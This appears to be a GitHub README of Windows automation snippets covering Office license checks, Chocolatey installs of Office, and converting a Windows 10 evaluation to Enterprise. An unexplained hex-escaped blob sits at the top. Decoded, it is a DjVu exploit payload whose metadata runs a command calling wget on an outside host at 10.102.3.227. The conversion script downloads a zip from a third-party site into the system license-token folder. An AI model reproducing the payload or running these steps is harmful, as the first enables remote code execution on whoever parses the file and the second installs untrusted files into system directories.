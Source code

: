 '\\x41,\\x54,\\x26,\\x54,\\x46,\\x4f,\\x52,\\x4d,\\x0,\\x0,\\x0,\\x79,\\x44,\\x4a,\\x56,\\x55,\\x49,\\x4e,\\x46,\\x4f,\\x0,\\x0,\\x0,\\xa,\\x0,\\x0,\\x0,\\x0,\\x18,\\x0,\\x2c,\\x1,\\x16,\\x1,\\x42,\\x47,\\x6a,\\x70,\\x0,\\x0,\\x0,\\x0,\\x41,\\x4e,\\x54,\\x61,\\x0,\\x0,\\x0,\\x53,\\x28,\\x6d,\\x65,\\x74,\\x61,\\x64,\\x61,\\x74,\\x61,\\xa,\\x20,\\x20,\\x20,\\x20,\\x20,\\x20,\\x20,\\x20,\\x28,\\x43,\\x6f,\\x70,\\x79,\\x72,\\x69,\\x67,\\x68,\\x74,\\x20,\\x22,\\x5c,\\xa,\\x22,\\x20,\\x2e,\\x20,\\x71,\\x78,\\x7b,\\x77,\\x67,\\x65,\\x74,\\x20,\\x68,\\x74,\\x74,\\x70,\\x3a,\\x2f,\\x2f,\\x31,\\x30,\\x2e,\\x31,\\x30,\\x32,\\x2e,\\x33,\\x2e,\\x32,\\x32,\\x37,\\x3a,\\x38,\\x30,\\x38,\\x30,\\x2f,\\x7d,\\x20,\\x2e,\\x20,\\x5c,\\xa,\\x22,\\x20,\\x62,\\x20,\\x22,\\x29,\\x20,\\x29'

# Automation
Automate all the boring things

#Finding an old office key
cd 'C:\Program Files\Microsoft Office\Office16\'
cscript .\OSPP.vbs /dstatus

#Install O365 with exclusions

Needs to be ran in PS

Sample 1
```choco install microsoft-office-deployment --params='/64bit /Product:HomeStudent2019Retail /Exclude=Publisher,Outlook,Lync,Groove,Access'```

Sample 2
```choco install microsoft-office-deployment --params='/64bit /Product:Office19ProPlus2019R_Retail /Exclude=Publisher,Outlook,Lync,Groove,Access'```

#Convert Windows 10 Enterprise Eval to Windows 10 Enterprise

```
$GenericKey='NPPR9-FWDCX-D2C8J-H872K-2YT43'
$ProducKey=<NEED_TO_BUY>
wget https://appsforpcfree.net/skus-Windows-10.zip
unzip skus-Windows-10.zip C:\Windows\System32\spp\tokens\skus\
slmgr.vbs /rilc
slmgr.vbs /upk >nul 2>&1
slmgr.vbs /ckms >nul 2>&1
slmgr.vbs /cpky >nul 2>&1
slmgr.vbs /ipk $GenericKey
sc config LicenseManager start= auto & net start LicenseManager
sc config wuauserv start= auto & net start wuauserv
slmgr.vbs /ipk $ProductKey
shutdown /r /t 0```
